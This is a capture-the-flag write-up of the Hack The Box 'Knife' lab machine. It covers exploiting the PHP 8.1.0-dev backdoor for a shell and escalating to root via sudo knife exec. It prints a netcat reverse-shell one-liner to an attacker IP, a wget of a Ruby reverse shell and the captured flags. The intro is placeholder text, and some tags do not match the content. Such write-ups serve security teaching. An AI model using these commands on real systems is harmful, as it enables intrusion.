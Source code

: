 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-05-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-knife/knife_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-knife/knife_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/knife]# nmap -Pn -n --open -sCV 10.10.10.242                                                                       (master✱)
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 10:51 CEST
  Nmap scan report for 10.10.10.242
  Host is up (0.044s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
  |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
  |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title:  Emergent Medical Idea
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

DIRB:
  -

NIKTO:
  + Retrieved x-powered-by header: PHP/8.1.0-dev


2. By looking at the website there's not much we can do. No links, no nothing really.
   Going back the the enum data it's sparse, but from Nikto we find PHP version 8.1.0-dev - which sounds interesting.

   Googling around I came across an article mentioning 8.1.0-dev was released with a backdoor, making all sites using it vulnerable.
   Download a PoC script and run it to get a shell, and grab user.txt.


   [root:/git/htb/knife]# python3 backdoor_php8.1.0-dev.py                                                                           (master✱)
     Enter the full host url:
     http://10.10.10.242

     Interactive shell is opened on http://10.10.10.242
     Can't access tty; job crontol turned off.
     $ hostname && id
      knife
      uid=1000(james) gid=1000(james) groups=1000(james)

    $ cat /home/james/user.txt
      49e822672ec0b1f552fd10c37f815904


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. The PoC-shell is limited so start by sending a new reverse shell;

  $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4488 >/tmp/f

  [root:/git/htb/knife]# nc -lvnp 4488                                                                                              (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.242] 59996
    /bin/sh: 0: can't access tty; job control turned off
    $

Upgrade the shell.


2. As usual, start with 'sudo -l'.

  james@knife:/$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife


Running the command we get a lot of help output, including an interesting exec option.
  james@knife:/$ sudo /usr/bin/knife
    ..
    ** EXEC COMMANDS **
    knife exec [SCRIPT] (options)

Looking at the knife binary we see that it's ruby - so most likely a ruby script is the way to go here.


3. Upload a ruby reverse shell and execute it. Capture the shell and grab root.txt.

  james@knife:/dev/shm$ wget http://10.10.14.6/rev.rb
  james@knife:/dev/shm$ chmod +x rev.rb
  james@knife:/dev/shm$ sudo /usr/bin/knife exec /dev/shm/rev.rb

  [root:/git/htb/knife]# nc -lvnp 4499                                                                                              (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.242] 44298
    We are connected!
    root@knife:/dev/shm# id && hostname && cat /root/root.txt
      uid=0(root) gid=0(root) groups=0(root)
      knife
      8a3f41cb35cd8ca41e684e209e051a6c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


PHP 8.1.0-dev backdoor:
  https://github.com/flast101/php-8.1.0-dev-backdoor-rce
